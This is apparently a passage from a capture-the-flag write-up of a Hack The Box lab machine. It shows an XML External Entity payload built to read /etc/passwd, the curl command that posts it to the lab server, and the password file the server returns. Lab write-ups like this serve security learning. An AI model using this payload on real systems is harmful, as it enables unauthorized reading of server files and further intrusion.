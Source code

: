 Let's see if we can get an XML External Entity (XXE) attack to work and inject in some XML to get file reads on the system. First we modify our XML file to the following to test if we can read `/etc/passwd`.

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<details>
    <subnet_mask>&xxe;</subnet_mask>
    <test></test>
</details>
```

Let's test our payload with `curl`.

```
root@kali:~/htb/aragog# curl -d @test.txt http://10.10.10.78/hosts.php

There are 4294967294 possible hosts for root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
florian:x:1000:1000:florian,,,:/home/florian:/bin/bash
cliff:x:1001:1001::/home/cliff:/bin/bash
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:123:130:ftp daemon,,,:/srv/ftp:/bin/false
```
